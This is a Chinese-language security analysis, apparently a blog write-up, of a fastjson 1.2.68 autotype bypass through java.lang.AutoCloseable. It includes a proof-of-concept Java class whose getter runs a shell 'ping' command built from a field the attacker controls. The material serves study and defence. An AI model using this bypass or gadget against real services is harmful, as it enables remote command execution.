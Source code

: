 #### JavaBeanDeserializer

在 fastjson 中对大部分类都指定了特定的 deserializer，如果未指定则会通过 createJavaBeanDeserializer() 来指定 deserializer，通常情况下都是一些第三方类才会调用到这里：  
/com/alibaba/fastjson/1.2.68/fastjson-1.2.68-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java 832  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112852-dc60a9c8-a31a-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422112852-dc60a9c8-a31a-1.png)  
在 FastJSON 中 com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings 用于添加一些基本的类并将其当做缓存使用，但是在查看时可以发现这里的额外加载了一个 java.lang.AUtoCloseable 类，同时并未为其指定 deserializer，因此会走到最后的 else 条件中去，之后对应的 JavaBeanDeserializer，而且 java.lang.AUtoCloseable 类位于 mapping 缓存中，所以可以无条件反序列化：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422112913-e8b2d8ae-a31a-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422112913-e8b2d8ae-a31a-1.png)  
和之前一样，我们可以通过继承或者实现 AutoCloseable 类来绕过 autotype 反序列化检测，测试代码如下：

```
package org.heptagram.fastjson;

import java.io.IOException;
import java.io.Closeable;

public class ViaAutoCloseable  implements Closeable {
    private String domain;

    public ViaAutoCloseable() {
    }

    public ViaAutoCloseable(String domain) {
        this.domain = domain;
    }

    public String getDomain() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            e.printStackTrace();
        }
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public void close() throws IOException {

    }
}


```
